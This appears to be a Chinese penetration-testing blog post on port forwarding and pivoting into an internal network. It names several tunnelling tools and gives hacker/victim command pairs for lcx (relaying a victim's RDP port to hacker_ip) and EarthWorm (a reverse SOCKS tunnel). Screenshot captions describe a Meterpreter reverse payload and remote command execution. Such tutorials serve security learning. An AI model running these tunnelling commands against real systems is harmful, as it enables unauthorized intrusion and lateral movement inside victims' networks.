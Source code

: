 +++
date = "2016-08-08T19:33:45+08:00"
description = ""
draft = false
tags = ["端口转发"]
title = "端口转发"
topics = ["Pentest"]

+++

### 0x00 应用场景
* 内网IP的80端口通过端口映射到了外网IP的80端口上
* 内网的Web服务器通过外网IP反向代理(如Nginx)
也就是说Web服务器在内网中

### 0x01 判断Web是否为内网
* 向ping域名，查看IP是外网
* 用webshell查看ip却是内网IP

### 0x02 端口转发工具
* lcx
* htran
* [EarthWorm](http://rootkiter.com/EarthWorm/)
* netsh
* reGeorg
* meterpreter porfwd

### 0x03 lcx端口转发
* Hacker：lcx.exe -listen 500 8888
* Victim：lcx.exe -slave hacker_ip 500 victim_ip 3389
* Hacker：cmd mstsc hacker_ip:500

![hacker运行lcx](/img/post/privilge_escalation_win_hacker_run_lcx.png)
![vimctim端运行lcx](/img/post/privilge_escalation_win_vimctim_run_lcx.png)
![hacker远程连接](/img/post/privilge_escalation_win_hacker_remote_conn.png)
![hacker远程连接成功](/img/post/privilge_escalation_win_hacker_remote_conn_success.png)

### 0x04 EarchWorm端口转发
* Hacker：./ew -s rcsocks -l 1080 -e 8888
* Victim：./ew -s rssocks -d hacker_ip -e 8888
![earchworm原理](/img/post/privilge_escalation_win_earchworm.png)
#### 1. 启动EarchWorm
![hacker服务器启动ew](/img/post/privilge_escalation_win_linux_run_ew.png)
![victim启动ew](/img/post/privilge_escalation_win_victim_run_ew.png)
![victim连接hacker服务器](/img/post/privilge_escalation_win_linux_get_victim_conn.png)
#### 2. hacker主机使用代理
![hacker内网主机设置代理1](/img/post/privilge_escalation_win_hacker_set_proxy1.png)
![hacker内网主机设置代理2](/img/post/privilge_escalation_win_hacker_set_proxy2.png)
#### 3. hacker内网主机连接目标的内网主机
![hacker连接内网主机](/img/post/privilge_escalation_win_ew_hacker_remote_conn.png)
![hacker连接内网主机成功](/img/post/privilge_escalation_win_ew_hacker_remote_conn_success.png)

### 0x05 Meterpreter
* Hacker端生成payload
![msf生成win反弹型的payload](/img/post/privilge_escalation_win_msf_creat_payload.png)

* msf监听端口
![设置metasploit监听端口](/img/post/privilge_escalation_win_set_metasploit_listen_port.png)

* 目标主机运行exp
![目标主机运行exp](/img/post/privilge_escalation_win_victim_run_exp.png)

* msf收到新会话
![msf收到目标主机的连接](/img/post/privilge_escalation_win_msf_get_conn.png)

* msf执行命令
![msf远程执行命令](/img/post/privilge_escalation_win_msf_exec_command.png)
